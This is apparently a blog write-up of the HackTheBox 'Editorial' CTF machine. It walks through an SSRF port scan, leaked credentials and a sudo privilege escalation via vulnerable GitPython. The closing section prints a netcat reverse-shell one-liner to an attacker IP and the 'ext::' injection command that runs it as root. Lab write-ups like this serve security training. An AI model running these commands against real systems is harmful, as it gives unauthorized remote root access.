









+++
title = 'Editorial'
date = 2024-06-16T16:19:06+03:00
draft = false 
tags = ['htb', 'writeup']
summary = '[Editorial](https://app.hackthebox.com/machines/608) is an easy Linux CTF box, that is a part of the HackTheBox season 5 machines. It requires basic web vulnerability, git, and Linux privilege escalation knowledge. Machine created by [Lanz](https://app.hackthebox.com/users/73707) *+respict*.'
description = '"Editorial" is an easy Linux CTF machine. Released on 15th of June, 2024 (HackTheBox)'
thumbnail = 'img/ed-logo.png'
+++

Initial Access
==============

Enumeration
-----------

### Nmap Scan

The first thing to do is to perform an Nmap scan. For the scan, I used the default scripts, version detection and OS detection `sudo nmap -v -sC -sV -oN scans/nmap/init $IP`:

```text
Nmap scan report for 10.10.11.20
Host is up (0.043s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Two services were found. The more interesting one is obviously the web server running on `Nginx`. On the web server we are greeted with:


### Web Application 

The more interesting functionality is definitely the upload & cover functionality. This is found under `http://editorial.htb/upload`.



After that I tested for server side request forgery (`SSRF`). I noticed that when we send a request to a closed / open port the website responds differently:
- `/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg` (closed)
- `static/uploads/5063d778-6478-4b48-aa30-0016c233cd2d` (open)

I set up an intruder scan to go through all of the ports `1-65535`. Its important to flag any response that does not contain the closed port signature:



A hit was found on the port `5000` which reveals an internal API (This requires first the SSRF request, and then a request to the resource):



The following was found in the response of the request:

```json
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```


Exploitation
-----------

### Information Leak

Most of the endpoints did not work; however, the one that did was `/api/latest/metadata/messages/authors`. This endpoint revealed SSH credentials for the user `dev`:






Privilege Escalation
====================

Production Access
-----------------

After SSH login I noticed the `~/apps` directory. This turns out to be a git project:



Looking at `git log` output we see multiple code changes:



The following commit `b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae` reveales a production users credentials. This can be looked at via `git show`.




Root Access
-----------

Performing basic enumeration for root exploit we find privileges via `sudo -l`, that allow us to run a Python script as root with arbitrary parameter:

```text
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

Inspecting the script we find that it is using `GitPython`. The version in use is vulnerable to [Remote Code Execution](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858):

```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

For exploitation I created a shell script under `/tmp` that contains a reverse shell to my machine:


```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.31 4444 >/tmp/f' >> /tmp/shell.sh
chmod +x /tmp/shell.sh
```

After that we can gain root privileges via:

```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c /tmp/shell.sh'
```

Successful exploitation. Don't forget the flag **`⸜(｡˃ ᵕ ˂ )⸝`**:


